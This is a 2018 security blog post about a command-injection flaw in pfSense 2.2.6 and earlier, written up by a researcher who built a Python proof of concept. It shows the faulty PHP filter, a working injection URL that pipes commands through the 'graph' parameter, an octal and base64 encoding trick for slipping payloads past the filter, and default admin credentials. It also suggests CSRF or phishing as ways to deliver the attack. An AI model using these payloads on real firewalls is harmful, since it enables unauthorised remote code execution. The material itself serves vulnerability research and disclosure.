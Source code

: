 ```yaml
---
layout: post
title:  "pfSense Authenticated Arbitrary Code Execution Exploit"
subtitle: "PoCs"
date:   2018-01-14 00:00:00 -0500
author: "coastal"
header-img: "images/site-resources/pfsense-code-exec-header.jpg"
---
```


### introduction

Recently, I came across a code execution vulnerability that affected pfSense firewalls running the community edition software version 2.2.6 or earlier. When I was working on exploiting the firewall, I found a [post](https://www.security-assessment.com/files/documents/advisory/pfsenseAdvisory.pdf) from 2016 from Security Assessment detailing how an authenticated user can perform arbitrary remote code execution through exploiting the `graph` **GET** parameter of the `status_rrd_graph_img.php` page. I found out that a PR had just been made in the last week to [the metasploit-framework](https://github.com/rapid7/metasploit-framework/pull/9362) to integrate this exploit. However, with a personal goal set to develop my own exploits and not use metasploit, I decided that I had to make a PoC exploit in `python3`.

### code review

The vulnerability stems from a lack of proper parameter filtering. If we look at the code in a [vulnerable version](https://github.com/pfsense/pfsense/blob/57627d9f3152f6ea984d3cdff71fa6e888784701/usr/local/www/status_rrd_graph_img.php) of `status_rrd_graph_img.php` starting on line 58, we can see the specific filtering rules that cause the vulnerability:

```
/* this is used for temp name */
if ($_GET['graph']) {
	$curgraph = str_replace(array("<", ">", ";", "&", "'", '"'), "", htmlspecialchars_decode($_GET['graph'], ENT_QUOTES | ENT_HTML401));
} else {
	$curgraph = "custom";
}
```

The blacklist misses the `|` character. We can see how this results in command execution by seeing what happens when we specify that we would like to use the `-throughput.rrd` database, starting on line 480:

```
elseif(strstr($curdatabase, "-throughput.rrd")) {
	/* define graphcmd for throughput stats */
	/* this gathers all interface statistics, the database does not actually exist */
	$graphcmd = "$rrdtool graph $rrdtmppath$curdatabase-$curgraph.png ";
	$graphcmd .= "--start $start --end $end --step $step ";
	$graphcmd .= "--vertical-label \"bits/sec\" ";
	$graphcmd .= "--color SHADEA#eeeeee --color SHADEB#eeeeee ";
	$graphcmd .= "--title \"" . php_uname('n') . " - {$prettydb} - {$hperiod} - {$havg} average\" ";
	$graphcmd .= "--height 200 --width 620 ";
```

An example of an injection that would lead to arbitrary code execution could be like so:

```
?database=-throughput.rrd&graph=file|echo whoami|sh|echo
``` 

When this input is parsed, the `$graphcmd` that is executed by the system becomes

```
rrdtool graph $rrdtmppath$curdatabase-file|echo whoami|sh|echo --start ...
```

i.e.

```
rdtool graph $rrdtmppath$curdatabase-file
```

```
echo whoami|sh
```

```
echo --start $start --end $end --step $step ...[truncated]...
```

whoops

### exploitation

While the incomplete filtering allows us to get code execution, we still have some issues with payloads, specifically ones that write to a temp file that is subsequently executed. In order to bypass that restriction, we can call the `printf` command with a payload that is octal encoded like so (example here is `whoami`):

```
$ printf '167\150\157\141\155\151'|sh
coastal
```

I built octal encoding and recursive `base64` wrapping of payloads into the exploit. There are two payloads built in to the exploit: a normal `php` reverse shell, and a `meterpreter` stager. These payloads are executed by writing to a temp file in an initial request, and then executing the file with a subsequent **GET** request to the file. Since the pfSense firewall runs on `php`, we use a `php`-based reverse shell and m`meterpreter` stager to ensure payload execution compatibility with all deployments of the firewall.

**php reverse shell**

<img src="{{ site.baseurl }}/images/notes-tips-tricks/nc.gif">

**meterpreter stager**

<img src="{{ site.baseurl }}/images/notes-tips-tricks/msf.gif">

This exploit does require authentication, so you need to know a login to the firewall in order to perform the exploitation. The exploit is written with the default pfSense credentials baked in (`admin:pfsense`). If this login does not work, you will need to either determine the login credentials or integrate this exploit into a CSRF attack. CSRF protection is not built into the requests passed to `status_rrd_graph_img.php`. In the real world, that means that this arbitrary code execution could be performed by convincing an authenticated admin to click a payload link, perhaps through a phishing vector.

### base64 headaches

I had an arduous journey trying to get the `base64` payload obfuscation working. While not an inherent necessity, it is always nice to add another layer of protection to payload delivery. Unfortunately, I ran into some subtlety in how `python` and `php` process `base64` encoding and decoding.

Let's generate a test string that, when encoded with `python`'s `base64` library, requires padding.

```
>>> import base64
>>> base64.b64encode("test message here")
'dGVzdCBtZXNzYWdlIGhlcmU='
>>> base64.b64decode('dGVzdCBtZXNzYWdlIGhlcmU=')
'test message here'
```

We can see that encoding and decoding the string works as you would expect. However, when we take that padded `base64` encoded string and try to decode it with `php`'s `base64` library it doesn't go quite as smoothly.

```
coastal@blackbox  /tmp  echo '<?php print(base64_decode(dGVzdCBtZXNzYWdlIGhlcmU=)) ?>' > test.php
coastal@blackbox  /tmp  php test.php
PHP Parse error:  syntax error, unexpected '=', expecting ',' or ')' in /tmp/test.php on line 1
```

Interestingly, if we remove the padding from the `base64` encoded string that was generated in `python` and try to decode it with `php`'s library it decodes flawlessly.

```
coastal@blackbox  /tmp  echo '<?php print(base64_decode(dGVzdCBtZXNzYWdlIGhlcmU)) ?>' > test.php 
coastal@blackbox  /tmp  php test.php                                                            
PHP Notice:  Use of undefined constant dGVzdCBtZXNzYWdlIGhlcmU - assumed 'dGVzdCBtZXNzYWdlIGhlcmU' in /tmp/test.php on line 1
test message here
```

However, if we try to decode that trimmed `base64` string with `python`'s library, we get an exception

```
>>> base64.b64decode('dGVzdCBtZXNzYWdlIGhlcmU')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/base64.py", line 78, in b64decode
    raise TypeError(msg)
TypeError: Incorrect padding
```

As to the platform-specific reasons underlying these idiosyncrasies, I am not entirely sure. I can tell you that it is a fairly subtle bug to try to find, and wholly unexpected (at least for me). But, since the payload generation is in `python` and execution is in `php`, we can simply trim the padding from the generated `base64` string and wrap in in `php`'s `base64` library calls to get functional obfuscation and execution.

### summary

I hope this was an interesting post, and if you would like to check out / use my exploit PoC you can view it on my [github](https://github.com/spencerdodd/pfsense-code-exec). Thanks!

-coastal